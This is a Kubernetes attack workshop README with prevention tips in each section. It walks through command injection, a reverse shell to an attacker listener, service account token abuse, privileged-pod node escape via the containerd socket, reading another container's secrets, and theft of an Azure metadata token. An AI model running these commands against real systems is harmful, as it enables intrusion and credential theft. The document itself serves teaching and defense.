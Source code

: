 # Hijack Kubernetes Hands-on
## Play with the sample app

<details>
<summary>Show me the details</summary>

The sample application "ping me" pings a target specified via the input field. Try the following inputs:

```bash
127.0.0.1

127.0.0.1; echo "I was here"

; which bash
```

<details>
<summary>Details on how to input the snippets</summary>

1. Let's try to inject a command after the IP address: `127.0.0.1; echo "I was here"`. As you can see in the answer, it worked.
2. Now we try whether `bash` is available: `; which bash`. And it is! Looks like we can try to hijack the container.

</details>

<details>
<summary>How to prevent this attack</summary>

* Shift security left and enable [SAST scanning](https://owasp.org/www-community/Source_Code_Analysis_Tools)
* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)

</details>
</details>

## Hijack the container

<details>
<summary>Show me the details</summary>

We now inject into the container via a reverse shell. Try to execute the following snippets:

On your attacker machine:

```bash
sudo nc -lnvp 80
```

Input for the app (change your IP):

```bash
; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'
```

<details>
<summary>Details on how to hijack the container</summary>

1. We will open a connection on our attacker machine using netcat: `sudo nc -lnvp 80`
2. Now we inject the required command into our container. This will allow us to connect a reverse shell to our open connection: `; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'`.
3. And finally, we have a reverse shell up and running. Try some commands like `ls`

</details>

<details>
<summary>How to prevent this attack</summary>

* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)
* Do not run workload as root
* Deny egress network access on a network level as well as using [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
* Detect untrusted process with container runtime security tools like [Falco](https://github.com/falcosecurity/falco)

</details>
</details>

## Get access to the Kubernetes API

<details>
<summary>Show me the details</summary>

Let's see if we can access the API server. Execute the following snippets:

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api

NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/

kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

<details>
<summary>Details on how to access the Kubernetes API server</summary>

Let's see if we can access the API server.

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api
```

It looks like we were able to authenticate and have some access. Now let's check if we have access to other pods in our namespace:

``` bash
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods
```

This looks good! Let's install `kubectl` for easier access:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

Let's see what we are allowed to do:

```bash
kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Do not share service accounts between applications
* Do not enable higher access levels for the default service account (this app would not have needed it!)
* Review all third-party snippets before deploying them
* Use read-only filesystems
* Things we already talked about
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
</details>

## Hijack the Kubernetes Node

<details>
<summary>Show me the details</summary>

Let's try one more thing. Are we able to schedule a privileged pod and "talk" to containerd? Run the following snippets:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF

kubectl exec -it -n default privileged-pod -- /bin/bash

apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list

```

<details>
<summary>Details on how to hijack the node</summary>

Let's try to create a privileged pod and "talk" to containerd:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF
```

Then we need to attach to the pod:

```bash
kubectl exec -it -n default privileged-pod /bin/bash
```

Now we can try to install some basics as well as the containerd CLI and talk to the containerd socket:

```bash
apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny running root containers (Tools like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) and [Kyverno](https://github.com/kyverno/kyverno) can help)
* Deny hostPath mounts
* Things we already talked about
  * Do not share service accounts
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
</details>

## Access secrets and data from another container

<details>
<summary>Show me the details</summary>

We will now try to retrieve secrets from a container that we do not have access to (via Kubernetes):

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "docker.io/library/nginx" | awk '{print $1}')

ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```


With those secret we can now connect to the Redis instance and retrieve some data:

```bash
apt-get install -y redis-tools

REDIS_HOST=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_HOST | sed 's/^.*=//')
REDIS_KEY=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_KEY | sed 's/^.*REDIS_KEY=//')

redis-cli -h $REDIS_HOST -a $REDIS_KEY get data
```

<details>
<summary>Details on how to access the secrets</summary>

We will use the containerd CLI to access details of a container running on this node.

First we will retrieve the container ID:

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "docker.io/library/nginx" | awk '{print $1}')
```

And then request container runtime details such as environment variables:
```bash
ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

With those secret we can now connect to the Redis instance and retrieve some data:

```bash
apt-get install -y redis-tools

REDIS_HOST=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_HOST | sed 's/^.*=//')
REDIS_KEY=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_KEY | sed 's/^.*REDIS_KEY=//')

redis-cli -h $REDIS_HOST -a $REDIS_KEY get data
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Limit egress access to other cloud resources (Network policies)
* Secure your other cloud resources
* Things we already talked about
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security
  * Deny running root containers (Tools like OPA Gatekeeper and Kyverno can help)
  * Deny hostPath mounts

</details>
</details>

## Hijack Cloud resources

<details>
<summary>Show me the details</summary>

We can also use the underlying cloud identity and try to escape even further. Run the following snippet to get a valid cloud provider token (in our case the Client ID of the underlying Managed Identity):

```bash
mkdir /temp
mount $(df | awk '{print $1}' | grep "/dev/sd") /temp

IDENTITY=$(cat /temp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)

SUBSCRIPTION=$(cat /temp/etc/kubernetes/azure.json | jq -r .subscriptionId)
RG=$(cat /temp/etc/kubernetes/azure.json | jq -r .resourceGroup)

curl -X GET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG?api-version=2021-04-01 | jq

STAC=my0stac
curl -X PUT -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data '{"sku":{"name":"Standard_LRS"},"kind":"StorageV2","location":"westeurope"}' https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG/providers/Microsoft.Storage/storageAccounts/$STAC?api-version=2018-02-01 | jq
```

To verify the created Storage Account we will now install the Azure CLI, authenticate and then list it:

```bash
curl -sL https://aka.ms/InstallAzureCLIDeb | bash

az login --identity --username $IDENTITY

az storage account list -g $RG -o table
```

<details>
<summary>Details on how to retrieve a Cloud provider token</summary>

First, we need to mount the local node's file system to access the underlying identity ID:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /temp
```

We can now retrieve the cloud identity used and request a valid token via the cloud metadata service (in our case Azure Instance Metadata Service):

```bash
mkdir /temp
mount $(df | awk '{print $1}' | grep "/dev/sd") /temp

IDENTITY=$(cat /temp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)

SUBSCRIPTION=$(cat /temp/etc/kubernetes/azure.json | jq -r .subscriptionId)
RG=$(cat /temp/etc/kubernetes/azure.json | jq -r .resourceGroup)

curl -X GET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG?api-version=2021-04-01 | jq

STAC=my0stac
curl -X PUT -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data '{"sku":{"name":"Standard_LRS"},"kind":"StorageV2","location":"westeurope"}' https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG/providers/Microsoft.Storage/storageAccounts/$STAC?api-version=2018-02-01 | jq
```

We could now use the secret to talk to the cloud provider management plane (in this case Azure Resource Manager) and try to create or access further resources. Furthermore we were able to create an Azure Storage Account.

To verify the created Storage Account we will now install the Azure CLI, authenticate and then list it:

```bash
curl -sL https://aka.ms/InstallAzureCLIDeb | bash

az login --identity --username $IDENTITY

az storage account list -g $RG -o table
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny access to the Cloud provider metadata service using Network Policies (all Cloud providers!)
* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
</details>
